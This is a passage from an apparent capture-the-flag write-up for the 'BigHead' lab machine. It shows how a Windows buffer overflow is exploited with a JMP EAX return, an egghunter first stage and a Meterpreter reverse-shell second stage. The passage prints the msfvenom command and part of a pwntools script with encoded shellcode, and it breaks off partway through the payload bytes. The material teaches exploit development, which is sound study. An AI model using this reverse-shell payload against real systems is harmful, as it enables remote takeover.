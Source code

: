 After the function returns, the `EIP` points to the `JMP EAX` instruction.

![](/assets/images/htb-writeup-bighead/exploit/jmpeax2.png)

Then it jumps to the memory address of `EAX`. We see here we only have 36 bytes of buffer space to work with.

![](/assets/images/htb-writeup-bighead/exploit/jmpeax3.png)

I'll align the stack first by pushing and popping the `EAX` value into `ESP`. To find the opcode for this I used `nasm_shell.rb` from Metasploit:

```
# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb 
nasm > push eax
00000000  50                push eax
nasm > pop esp
00000000  5C                pop esp
```

Edit: In retrospect I don't this part was required for this exploit, the exploit should have worked anyways because it doesn't push/pop stuff off the stack.

Since I don't have much buffer space to work with I'll use a 32 bytes egghunter. Basically the egghunter is a small shellcode that looks for a marker (the egg) in memory and jumps to it when it finds it. This is the first stage of the exploit, the 2nd stage will be the rest of the shellcode we want to execute and we'll need to place it in memory with another HTTP request. Mona can generate the code for the egghunter. By default it uses the string `w00t` for the egg.

![](/assets/images/htb-writeup-bighead/exploit/egghunter.png)

The first stage payload is:
- Align stack
- Egghunter shellcode
- JMP EAX

The second stage payload is:
- w00tw00t (egg)
- meterpreter payload

The exploit tested locally on my Win7 VM is shown here:

```python
#!/usr/bin/python

from pwn import *

'''
# msfvenom -p windows/meterpreter/reverse_tcp -b \x00\x0a\x0d -f python LHOST=172.23.10.39 LPORT=80
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of python file: 1772 bytes
'''

egg = "\x77\x30\x30\x74" # w00t
payload = egg + egg
payload += "\xbf\x33\x30\xf9\x54\xdd\xc2\xd9\x74\x24\xf4\x5a\x29"
payload += "\xc9\xb1\x56\x31\x7a\x13\x83\xea\xfc\x03\x7a\x3c\xd2"
payload += "\x0c\xa8\xaa\x90\xef\x51\x2a\xf5\x66\xb4\x1b\x35\x1c"
payload += "\xbc\x0b\x85\x56\x90\xa7\x6e\x3a\x01\x3c\x02\x93\x26"
payload += "\xf5\xa9\xc5\x09\x06\x81\x36\x0b\x84\xd8\x6a\xeb\xb5"
payload += "\x12\x7f\xea\xf2\x4f\x72\xbe\xab\x04\x21\x2f\xd8\x51"
payload += "\xfa\xc4\x92\x74\x7a\x38\x62\x76\xab\xef\xf9\x21\x6b"
```